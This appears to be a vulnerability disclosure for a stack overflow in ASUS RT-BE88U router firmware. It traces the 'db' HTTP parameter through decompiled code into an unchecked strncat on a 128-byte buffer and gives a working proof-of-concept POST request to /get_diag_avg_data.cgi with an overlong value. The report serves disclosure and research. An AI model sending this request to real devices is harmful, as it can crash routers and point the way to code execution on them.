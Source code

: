 In the newest firmware FW_RT_BE88U_300610237094 ,there is a stack overflow vulnerability in /usr/lib/libcodb.so lib file, the ”codb_avg_query_json_field“ function  deal the first parameter, in other words the "db" string content coming from http request not well

Version 3.0.0.6.102_38152

link: https://www.asus.com/networking-iot-servers/wifi-routers/asus-gaming-routers/rt-be88u/helpdesk_bios?model2Name=RT-BE88U

![](D:\ASUS\RT-BE88U_3.0.0.6_102_extract\bug01\00.png)



data flow start  from "sub_619EC"

```c
int __fastcall sub_619EC(int a1, FILE *a2)
{
  int v3; // r4
  char *WebVar_1F6A0; // r7
  char *v5; // r9
  char *v6; // r10
  char *v7; // r11
  char *v8; // r0
  const char *v9; // r6
  int v10; // r11
  int v11; // r6
  int v12; // r10
  int v13; // r6
  int v14; // r1
  int v15; // r2
  int v16; // r3
  int v17; // r6
  const char *v18; // r0
  int result; // r0
  int v20; // [sp+Ch] [bp-54h]
  char *v21; // [sp+10h] [bp-50h]
  char *v22; // [sp+14h] [bp-4Ch]
  int v23; // [sp+18h] [bp-48h]
  int v24; // [sp+1Ch] [bp-44h]
  int v25; // [sp+20h] [bp-40h]
  int *v26; // [sp+2Ch] [bp-34h]
  char *v27; // [sp+30h] [bp-30h]
  int v28; // [sp+34h] [bp-2Ch]
  int v29; // [sp+38h] [bp-28h] BYREF

  v3 = json_object_new_object(a1);
  v29 = 0;
  sub_5FB60(v3);
  WebVar_1F6A0 = GetWebVar_1F6A0((int)"db", v3);
  v5 = GetWebVar_1F6A0((int)"content", v3);
  v27 = GetWebVar_1F6A0((int)"node_mac", v3);
  v6 = GetWebVar_1F6A0((int)"ts", v3);
  v7 = GetWebVar_1F6A0((int)"duration", v3);
  v8 = GetWebVar_1F6A0((int)"point", v3);
  if ( *WebVar_1F6A0 && *v5 && *v6 && *v7 && (v9 = v8, *v8) )
  {
    v10 = atoi(v7);
    v11 = atoi(v9);
    v12 = atoi(v6);
    v13 = v12 - v11 * v10;
    v26 = _errno_location();
    v28 = *v26;
    if ( f_exists((int)"/tmp/HTTPD_DEBUG") > 0 || nvram_get_int((int)"HTTPD_DBG", v14, v15, v16) > 0 )
    {
      v20 = 26317;
      v24 = v12;
      v25 = v10;
      v23 = v13;
      v22 = v5;
      v21 = WebVar_1F6A0;
      asusdebuglog(6, "/jffs/HTTPD_DEBUG.log");
    }
    *v26 = v28;
    if ( codb_avg_query_json_field(WebVar_1F6A0, v5, v27, v13, v12, v10, &v29, v20, v21, v22, v23, v24, v25) )
      goto LABEL_10;
    v17 = 200;
  }
  else
  {
    v17 = 4006;
  }
  if ( !v29 )
  {
LABEL_10:
    fputs("{}", a2);
    goto LABEL_16;
  }
  v18 = (const char *)json_object_to_json_string(v29);
  fprintf(a2, v18, v17);
LABEL_16:
  fflush(a2);
  if ( v3 )
    json_object_put(v3);
  result = v29;
  if ( v29 )
    return json_object_put(v29);
  return result;
}
```



There is no any length check for "WebVar_1F6A0", and pass it to callee "codb_avg_query_json_field"

![](01.png)



The variable "v39" is the buffer, it's length is only 128 bytes

![](02.png)

![](03.png)



In dealing function "sub_815C" ，which uses the function ”strncat“ function， but the third parameter is "a1" length, which indicate that user can pass any string without length limitaion, causing stack overflow. If  exploit further, like to overflow some variables(even the caller variables), there maybe lead command execution before canary check

![](04.png)



The Poc is as fallows:

```
POST /get_diag_avg_data.cgi HTTP/1.1
Host: 192.168.1.1:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1
Origin: https://192.168.1.1:8443
Referer: https://192.168.1.1:8443/get_diag_avg_data.cgi
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close

db=wifi_detectaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&content=tx_diff;rx_diff&duration=60&point=10&ts=1720445781&node_mac=AA:BB:CC:DD:EE:FF
```

the response of ASUS

![](05.png)

